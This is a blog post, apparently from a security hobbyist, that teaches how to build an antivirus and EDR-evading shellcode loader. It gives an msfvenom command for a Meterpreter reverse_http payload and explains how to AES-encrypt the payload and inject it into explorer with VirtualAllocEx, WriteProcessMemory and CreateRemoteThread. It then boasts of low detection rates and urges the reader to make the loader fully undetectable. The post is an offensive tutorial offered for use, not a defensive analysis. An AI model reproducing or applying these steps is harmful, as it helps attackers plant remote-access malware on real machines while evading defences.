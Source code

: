 ```yaml
---
layout: post
title: Shell Code Injector with AES Encryption - EDR Bypass 
---
```

![](/images/2022-03-24-AESInj/0.png)

I have been getting a lot of messages from people asking about AV evasion. I won’t give away the source code for a fully undetectable payload, but I thought I’d share a basic implementation of a shell code runner that will take AES encrypted shell code and decrypt it and inject into a process such as explorer!
Before we proceed, the technique used to inject shell code is well known to AVs and you will get flagged, the purpose of this writeup is to show how AES can be implemented, and you can use same/similar techniques to bypass EDR solution with more sophisticated techniques 

## What do you need to follow along?

•	Metasploit 

•	Visual Studio 

•	Windows Machine for testing payload 


The first thing to do is to create a shell code using msfvenom:
```
msfvenom -p windows/x64/meterpreter/reverse_http LHOST=IP LPORT=443 -f csharp
``` 

![](/images/2022-03-24-AESInj/1.png)

Now download the project for encrypting the shellcode with AES encryption:
[Click Here](https://github.com/san3ncrypt3d/AESShellCodeEncrypter/tree/main)

Make sure to change the shellcode to your shellcode here:

![](/images/2022-03-24-AESInj/2.png)

*** Note: if you change the key/IV make sure to update them on the decryption part as well ! ***

Once you compile and run the program, you will get the encrypted shell code:

![](/images/2022-03-24-AESInj/3.png)


Now we will need to create a program that will essentially take this encrypted shell code, and decrypt It and inject into a process’s virtual address space.

Here is the program:  https://github.com/san3ncrypt3d/AESShellCodeInjector 

I will briefly explain what is going on:

•	"buf" is an array with the encrypted shell code

•	"Dshell" uses the AESDecrypt function and stores the decrypted shell code

•	Now we use Win32 Api’s for allocating shell code in memory, copy the shell code and execute it with VirtualAllocEx and WriteProcessMemory and CreateRemoteThread:

![](/images/2022-03-24-AESInj/4.png)

Now you change the “buf” array with the encrypted shell we acquired from previous program and compile the program and run it

Of course, make sure to start a lister on Metasploit:

![](/images/2022-03-24-AESInj/5.png)

At the time of writing this project, the payload is only detected by 3/26 Av engines:

![](/images/2022-03-24-AESInj/6.png)

I am a bit surprised that only 3 AV’s caught it, but you can enhance this project into making it completely undetectable:

![](/images/2022-03-24-AESInj/7.png)



Credits: some of the codes are taken from other open source projects 

Reference:
1. https://www.c-sharpcorner.com/article/aes-encryption-in-c-sharp/
2. https://docs.microsoft.com/en-us/cpp/dotnet/how-to-call-native-dlls-from-managed-code-using-pinvoke?view=msvc-170 

